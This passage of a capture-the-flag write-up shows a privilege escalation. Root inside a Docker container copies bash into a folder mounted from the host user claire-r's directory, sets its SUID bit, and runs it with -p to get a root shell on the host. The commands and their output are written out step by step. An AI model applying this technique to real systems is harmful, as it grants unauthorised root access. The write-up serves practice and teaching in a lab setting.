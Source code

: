 ```bash
root@de0610f51845:/logs# ls -la
ls -la
total 12
drwxrw-rw- 2 1001 1001 4096 Dec 22  2022 .
drwxr-xr-x 1 root root 4096 Dec 22  2022 ..
-rw-r--r-- 1 root root  300 Jan 29 09:20 tt.log
```

I created a testfile within the docker container and it showed up in claires folder.

```bash
root@de0610f51845:/logs# touch test.txt
```

```bash
claire-r@ctf:~/timeTracker-src/logs$ ls -la
total 12
drwxrw-rw- 2 claire-r claire-r 4096 Jan 29 10:25 .
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 ..
-rw-r--r-- 1 root     root        0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root     root      300 Jan 29 09:20 tt.log
```

Since I am root in the container. The easiest way of escalating our privileges is to use the SUID bit.

For that to work, I copied the bash binary into the container and set the SUID bit.

```bash
root@de0610f51845:/logs# cp /bin/bash .
cp /bin/bash .
root@de0610f51845:/logs# ls -la
ls -la
total 1220
drwxrw-rw- 2 1001 1001    4096 Jan 29 10:36 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwxr-xr-x 1 root root 1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root root       0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root root     300 Jan 29 09:20 tt.log
root@de0610f51845:/logs# chmod u+s bash       
chmod u+s bash
root@de0610f51845:/logs# ls -la
ls -la
total 1220
drwxrw-rw- 2 1001 1001    4096 Jan 29 10:36 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root root 1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root root       0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root root     300 Jan 29 09:20 tt.log
```

Now, I have to run bash as root from `claire-r`.

```bash
claire-r@ctf:~/timeTracker-src/logs$ ls -la
total 1220
drwxrw-rw- 2 claire-r claire-r    4096 Jan 29 10:36 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root     root     1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root     root           0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root     root         300 Jan 29 09:20 tt.log
claire-r@ctf:~/timeTracker-src/logs$ ./bash -p
bash-5.1# whoami
root
```
